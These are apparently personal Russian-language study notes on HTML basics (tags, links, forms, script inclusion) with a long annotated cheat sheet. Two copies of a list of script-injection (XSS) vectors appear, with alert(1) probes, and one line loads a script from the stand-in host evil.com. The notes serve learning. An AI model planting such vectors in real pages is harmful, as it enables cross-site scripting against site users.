#### КОНЦЕПЦИИ
###### Теги, элементы, атрибуты
```html

- Тег -<div> или </div> (открывающий/закрывающий)
    
- Элемент - <div>текст</div> (всё вместе)
    
- Атрибут - class="name" внутри тега

```

###### Пути (URL)
```html

<!-- Абсолютные (полные) -->


<!-- Относительные (от текущей страницы) -->
 <!-- в папке images -->
 <!-- на уровень выше -->
 <!-- от корня сайта -->

```

###### Блочная модель
```html
<Блочные элементы>  (div, p, h1) - с новой строки, на всю ширину
    
< Строчные элементы>  (span, a, strong) - в строку, по содержимому
```

###### DOM (Document Object Model)
как браузер превращает HTML в дерево объектов:
```html
html
├─ head
│  ├─ title
│  └─ meta
└─ body
   ├─ h1
   ├─ p
   └─ div
      └─ span
```


выставленные голые теги чистого html 



зедесь уже добавлен стиль к html  для поля ввода



meta теги - это число для роботов поисковых /для себя / итд , не отображается на странице

#### работа с текстом 



#### списски



#### a href      - атрибут для ссылок

если добавить target="_blank"
target="_blank"   -откроется  в новой вкладке (если не стоит - то по умолчанию так)
target="_self"      -откр в этом же окне


#### относительный url адресс / локально через < a href="/directory.."...



#### якорь  для перехода по странице

< a name"..."...



 #### переход в почтовый клиент!
 


#### ссылка на картинку!
либо локальный путь указать, если на сервер нахожусь



#### подключение внутренних или внешних файлов
href="тут можно указать и внешнюю ссылку по которой скачается файл"
< link rel="name" href="... прописывается только внутри главного < head >



 #### подключение JAVASCRIPT < script > < / script >
 лучше всего подключ в < body > так как js может тормозить весь сайт (а вообще везде можно прописать)
 через src="https://...." можно указывать путь к файлу js который должен выполниться!
 ==src==
также можно указывать здесь и локальный путь к файлу
между  < script >  здесь можно любой код js прописать  < / script >



#### формы action - перенаправит на URL при выполнении действия
указать нужно тип запроса гет/пост


-----
js внутри html  через `<script>`
```html
<!DOCTYPE html>
<html lang="ru">
<head>
    <meta charset="UTF-8">
    <title>Пример</title>
</head>
<body>
    <p>Lorem ipsum dolor sit amet, consectetur adipisicing elit. Quaerat, id?</p>
    <input type="text" id="input" placeholder="Введите что-то">
    <button id="button">Готово</button>
    <p>Lorem ipsum dolor sit amet, consectetur adipisicing elit. Voluptatem, libero, blanditiis! Quasi eos, cupiditate expedita velit nulla nesciunt optio consequuntur, perspiciatis iste ipsa porro cum voluptate possimus similique sapiente laborum.</p>

    <script>
        let button = document.getElementById("button");
        button.onclick = function() {
            document.getElementById("input").style.display = "none";
        };
    </script>
</body>
</html>
```

все способы как внедряется js в разметку HTML
```html

---- базовые способы ------

<!-- 1. Внутренний скрипт (inline) -->
<script>
    alert(1);
</script>

<!-- 2. Внешний скрипт -->
<script src="https://evil.com/xss.js"></script>

<!-- 3. Инлайн-события (HTML-атрибуты) -->
<button onclick="alert(1)">Click</button>

<div onmouseover="alert(1)">Hover</div>
<body onload="alert(1)">
<input onfocus="alert(1)" autofocus>

<!-- 4. JavaScript: URL -->
<a href="javascript:alert(1)">Click me</a>
<iframe src="javascript:alert(1)"></iframe>
<form action="javascript:alert(1)">

------ продвинутые "" ----

<!-- 5. data: URL -->
<iframe src="data:text/html,<script>alert(1)</script>"></iframe>
<object data="data:text/html,<script>alert(1)</script>"></object>
<embed src="data:text/html,<script>alert(1)</script>">

<!-- 6. blob: URL -->
<script src="blob:https://example.com/1234-5678-90ab-cdef"></script>

<!-- 7. about: URL (не везде) -->
<iframe src="about:blank" onload="alert(1)"></iframe>
<iframe src="about:srcdoc"></iframe>

<!-- 8. srcdoc (HTML5) -->
<iframe srcdoc="<script>alert(1)</script>"></iframe>

----- через теги --------

<!-- 9. CSS-выражения (только старый IE) -->
<div style="width: expression(alert(1))"></div>
<style>div { width: expression(alert(1)); }</style>

<!-- 10. SVG -->
<svg onload="alert(1)"></svg>
<svg><script>alert(1)</script></svg>
<svg><use href="data:image/svg+xml,<svg onload=alert(1)>"></use>

<!-- 11. Meta-теги (старые браузеры) -->
<meta http-equiv="refresh" content="0; url=javascript:alert(1)">

<!-- 12. Link (очень редко) -->
<link rel="stylesheet" href="javascript:alert(1)">
<link rel="import" href="data:text/html,<script>alert(1)</script>">

<!-- 13. Object/Embed с HTML -->
<object type="text/html" data="javascript:alert(1)"></object>
<embed type="text/html" src="javascript:alert(1)">

<!-- 14. Base-тег (меняет пути) -->
<base href="https://evil.com/">
<script src="script.js"></script>  <!-- загрузится с evil.com -->


```


```html

<!DOCTYPE html> <!-- 1. Сообщает браузеру, что это HTML5 документ -->
<html> <!-- 2. Корневой элемент всей страницы -->
<head> <!-- 3. Служебная информация (не видна на странице) -->
    <meta charset="UTF-8"> <!-- 4. Кодировка страницы (чтобы русский работал) -->
    <meta name="viewport" content="width=device-width, initial-scale=1.0"> <!-- 5. Для мобильных устройств -->
    <title>Моя первая страница</title> <!-- 6. Заголовок вкладки браузера -->
</head>
<body> <!-- 7. ВСЁ, что видит пользователь на странице -->
    
    <!-- 8. ЗАГОЛОВКИ (6 уровней) -->
    <h1>Самый главный заголовок</h1> <!-- только один на странице -->
    <h2>Заголовок поменьше</h2>
    <h3>Еще меньше</h3>
    <h4>И так далее...</h4>
    <h5>До h5</h5>
    <h6>Самый мелкий заголовок</h6>
    
    <!-- 9. ТЕКСТ -->
    <p>Это обычный абзац текста. Он автоматически переносится на новую строку и имеет отступы.</p>
    
    <p>Это второй абзац. Между абзацами есть отступ.</p>
    
    <!-- 10. ФОРМАТИРОВАНИЕ ТЕКСТА -->
    <b>Жирный текст</b> (старый способ)<br>
    <strong>Тоже жирный, но важный (смысловое выделение)</strong><br>
    <i>Курсив</i> (старый способ)<br>
    <em>Курсив с акцентом (смысловое выделение)</em><br>
    <u>Подчеркнутый</u><br>
    <s>Зачеркнутый</s><br>
    <mark>Выделенный маркером</mark><br>
    <small>Маленький текст</small><br>
    H<sub>2</sub>O (нижний индекс)<br>
    X<sup>2</sup> (верхний индекс)<br>
    
    <!-- 11. ПЕРЕНОСЫ И РАЗДЕЛИТЕЛИ -->
    <br> <!-- Перенос строки (не нужен закрывающий тег) -->
    <hr> <!-- Горизонтальная линия-разделитель -->
    
    <!-- 12. ССЫЛКИ (одно из самого важного) -->
    <a href="https://google.com">Перейти на Google</a> <!-- обычная ссылка -->
    <a href="page2.html">На другую страницу сайта</a> <!-- относительная ссылка -->
    <a href="#section1">Перейти к разделу 1</a> <!-- якорь (на той же странице) -->
    <a href="mailto:test@mail.ru">Написать письмо</a> <!-- почта -->
    <a href="tel:+79991234567">Позвонить</a> <!-- телефон -->
    <a href="#" onclick="alert('клик!')">С JS-обработчиком</a> <!-- с JavaScript -->
    <a href="https://google.com" target="_blank">В новой вкладке</a> <!-- target="_blank" открывает новую вкладку -->
    
    <!-- 13. ИЗОБРАЖЕНИЯ -->
     <!-- src - путь к картинке, alt - текст если не загрузилась -->
    
     <!-- lazy - загружается только когда видно -->
    
    <!-- 14. СПИСКИ -->
    <!-- Маркированный список (точки) -->
    <ul>
        <li>Первый пункт</li>
        <li>Второй пункт</li>
        <li>Третий пункт</li>
    </ul>
    
    <!-- Нумерованный список (цифры) -->
    <ol>
        <li>Шаг 1</li>
        <li>Шаг 2</li>
        <li>Шаг 3</li>
    </ol>
    
    <!-- Вложенные списки -->
    <ul>
        <li>Фрукты
            <ul>
                <li>Яблоки</li>
                <li>Груши</li>
            </ul>
        </li>
        <li>Овощи</li>
    </ul>
    
    <!-- 15. ТАБЛИЦЫ -->
    <table border="1"> <!-- border - рамка (лучше CSS'ом) -->
        <caption>Название таблицы</caption> <!-- заголовок таблицы -->
        
        <thead> <!-- шапка таблицы -->
            <tr> <!-- строка -->
                <th>Заголовок 1</th> <!-- ячейка-заголовок (жирная) -->
                <th>Заголовок 2</th>
            </tr>
        </thead>
        
        <tbody> <!-- тело таблицы -->
            <tr>
                <td>Ячейка 1</td> <!-- обычная ячейка -->
                <td>Ячейка 2</td>
            </tr>
            <tr>
                <td>Ячейка 3</td>
                <td>Ячейка 4</td>
            </tr>
        </tbody>
        
        <tfoot> <!-- подвал таблицы -->
            <tr>
                <td colspan="2">Итог: 4 ячейки</td> <!-- colspan - объединение колонок -->
            </tr>
        </tfoot>
    </table>
    
    <!-- 16. ФОРМЫ (САМОЕ ВАЖНОЕ ДЛЯ ТЕБЯ!) -->
    <form action="/submit" method="POST"> <!-- action - куда отправлять, method - как -->
        
        <!-- Текстовое поле -->
        <label for="username">Имя пользователя:</label> <!-- for связывает с input по id -->
        <input type="text" id="username" name="username" placeholder="Введите имя" required>
        <!-- required - обязательное поле -->
        
        <!-- Пароль -->
        <label for="password">Пароль:</label>
        <input type="password" id="password" name="password" required>
        
        <!-- Email -->
        <label for="email">Email:</label>
        <input type="email" id="email" name="email" placeholder="test@mail.ru">
        
        <!-- Число -->
        <label for="age">Возраст:</label>
        <input type="number" id="age" name="age" min="0" max="120" step="1">
        
        <!-- Телефон -->
        <label for="phone">Телефон:</label>
        <input type="tel" id="phone" name="phone" pattern="\+7[0-9]{10}">
        <!-- pattern - проверка по регулярке -->
        
        <!-- URL -->
        <label for="site">Сайт:</label>
        <input type="url" id="site" name="site">
        
        <!-- Дата -->
        <label for="birthday">Дата рождения:</label>
        <input type="date" id="birthday" name="birthday">
        
        <!-- Чекбокс (галочка) -->
        <input type="checkbox" id="agree" name="agree" checked> <!-- checked - отмечено по умолчанию -->
        <label for="agree">Согласен с условиями</label>
        
        <!-- Радиокнопки (только один выбор) -->
        <input type="radio" id="male" name="gender" value="male" checked>
        <label for="male">Мужской</label>
        
        <input type="radio" id="female" name="gender" value="female">
        <label for="female">Женский</label>
        
        <!-- Выпадающий список -->
        <label for="country">Страна:</label>
        <select id="country" name="country">
            <option value="">--Выберите--</option>
            <option value="ru">Россия</option>
            <option value="us">США</option>
            <option value="de">Германия</option>
        </select>
        
        <!-- Множественный выбор -->
        <label for="colors">Любимые цвета (Ctrl+выбор):</label>
        <select id="colors" name="colors" multiple size="3">
            <option value="red">Красный</option>
            <option value="green">Зеленый</option>
            <option value="blue">Синий</option>
        </select>
        
        <!-- Текстовая область (много строк) -->
        <label for="comment">Комментарий:</label>
        <textarea id="comment" name="comment" rows="4" cols="50" placeholder="Введите текст..."></textarea>
        
        <!-- Загрузка файла -->
        <label for="file">Загрузить файл:</label>
        <input type="file" id="file" name="file" accept="image/*" multiple>
        <!-- accept - только картинки, multiple - несколько файлов -->
        
        <!-- Скрытое поле (не видно пользователю) -->
        <input type="hidden" name="csrf_token" value="abc123">
        
        <!-- Кнопки -->
        <button type="submit">Отправить форму</button> <!-- сабмит формы -->
        <button type="reset">Сбросить</button> <!-- сброс к исходным -->
        <button type="button" onclick="alert('клик')">Просто кнопка</button> <!-- просто кнопка -->
        
        <!-- Disabled (неактивное поле) -->
        <input type="text" value="Нельзя изменить" disabled>
        <input type="text" value="Только чтение" readonly>
    </form>
    
    <!-- 17. БЛОЧНЫЕ И СТРОЧНЫЕ ЭЛЕМЕНТЫ -->
    
    <!-- Блочные (занимают всю ширину, перенос строки) -->
    <div>Это блок div</div> <!-- самый популярный блочный элемент -->
    <div>Второй блок будет на новой строке</div>
    
    <!-- Строчные (идут в линию) -->
    <span>Это span</span>
    <span>Он будет рядом</span>
    <a>Ссылка тоже строчная</a>
    <strong>И жирный текст тоже</strong>
    
    <!-- 18. СЕМАНТИЧЕСКИЕ ТЕГИ (для структуры) -->
    <header>Шапка сайта/раздела</header>
    <nav>Навигационное меню</nav>
    <main>Основное содержание (только один на странице)</main>
    <article>Статья/пост/независимый блок</article>
    <section>Раздел страницы</section>
    <aside>Боковая колонка (сайдбар)</aside>
    <footer>Подвал сайта/раздела</footer>
    
    <!-- 19. РАБОТА С JS -->
    <!-- Встроенный скрипт -->
    <script>
        console.log('Привет из HTML');
        alert('XSS test!');
    </script>
    
    <!-- Внешний скрипт -->
    <script src="script.js"></script>
    
    <!-- async/defer загрузка -->
    <script src="script.js" async></script> <!-- загружается параллельно, выполняется сразу -->
    <script src="script.js" defer></script> <!-- загружается параллельно, выполняется после парсинга -->
    
    <!-- События прямо в HTML (классика XSS) -->
    <button onclick="alert('клик')">Кликни</button>
    <div onmouseover="alert('мышка')">Наведи мышь</div>
    <input onfocus="alert('фокус')" value="Кликни сюда">
     <!-- Классический XSS -->
    
    <!-- 20. DATA-АТРИБУТЫ (хранение данных) -->
    <div data-user-id="12345" data-user-role="admin">Пользователь</div>
    <!-- Доступ через JS: element.dataset.userId -->
    
    <!-- 21. СТИЛИ (CSS) -->
    <!-- Встроенные стили (атрибут style) -->
    <div style="color: red; font-size: 20px; background: black;">Красный текст</div>
    
    <!-- Стили в head -->
    <style>
        .my-class {
            color: blue;
            font-size: 16px;
        }
        #my-id {
            background: yellow;
        }
    </style>
    
    <div class="my-class" id="my-id">Синий текст с желтым фоном</div>
    
    <!-- Внешние стили -->
    <link rel="stylesheet" href="styles.css">
    
    <!-- 22. СПЕЦИАЛЬНЫЕ СИМВОЛЫ -->
    <p>&copy; 2024 - знак копирайта</p>
    <p>&reg; зарегистрированная торговая марка</p>
    <p>&trade; торговая марка</p>
    <p>&nbsp; неразрывный пробел (не переносит строку)</p>
    <p>&lt; меньше &gt; больше</p>
    <p>&amp; амперсанд</p>
    <p>&quot; двойные кавычки</p>
    <p>&apos; одинарные кавычки</p>
    
    <!-- 23. КОММЕНТАРИИ -->
    <!-- Это комментарий (не виден на странице) -->
    <!-- 
        Многострочный 
        комментарий 
    -->
    
    <!-- 24. МЕТА-ТЕГИ (важно) -->
    <!-- Редирект через 5 секунд -->
    <meta http-equiv="refresh" content="5; url=https://google.com">
    
    <!-- Устаревшее, но бывает -->
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    
    <!-- Для социальных сетей -->
    <meta property="og:title" content="Заголовок">
    <meta property="og:image" content="image.jpg">
</body>
</html>

```


# как js используется внутри HTML разметки

js внутри html  через `<script>`
```html
<!DOCTYPE html>
<html lang="ru">
<head>
    <meta charset="UTF-8">
    <title>Пример</title>
</head>
<body>
    <p>Lorem ipsum dolor sit amet, consectetur adipisicing elit. Quaerat, id?</p>
    <input type="text" id="input" placeholder="Введите что-то">
    <button id="button">Готово</button>
    <p>Здесь простой текст находится!</p>

    <script>
        let button = document.getElementById("button");
        button.onclick = function() {
            document.getElementById("input").style.display = "none";
        };
    </script>
</body>
</html>
```

## все способы как внедряется js в разметку HTML
```html

---- базовые способы ------

<!-- 1. Внутренний скрипт (inline) -->
<script>
    alert(1);
</script>

<!-- 2. Внешний скрипт -->
<script src="https://evil.com/xss.js"></script>

<!-- 3. Инлайн-события (HTML-атрибуты) -->
<button onclick="alert(1)">Click</button>

<div onmouseover="alert(1)">Hover</div>
<body onload="alert(1)">
<input onfocus="alert(1)" autofocus>

<!-- 4. JavaScript: URL -->
<a href="javascript:alert(1)">Click me</a>
<iframe src="javascript:alert(1)"></iframe>
<form action="javascript:alert(1)">

------ продвинутые "" ----

<!-- 5. data: URL -->
<iframe src="data:text/html,<script>alert(1)</script>"></iframe>
<object data="data:text/html,<script>alert(1)</script>"></object>
<embed src="data:text/html,<script>alert(1)</script>">

<!-- 6. blob: URL -->
<script src="blob:https://example.com/1234-5678-90ab-cdef"></script>

<!-- 7. about: URL (не везде) -->
<iframe src="about:blank" onload="alert(1)"></iframe>
<iframe src="about:srcdoc"></iframe>

<!-- 8. srcdoc (HTML5) -->
<iframe srcdoc="<script>alert(1)</script>"></iframe>

----- через теги --------

<!-- 9. CSS-выражения (только старый IE) -->
<div style="width: expression(alert(1))"></div>
<style>div { width: expression(alert(1)); }</style>

<!-- 10. SVG -->
<svg onload="alert(1)"></svg>
<svg><script>alert(1)</script></svg>
<svg><use href="data:image/svg+xml,<svg onload=alert(1)>"></use>

<!-- 11. Meta-теги (старые браузеры) -->
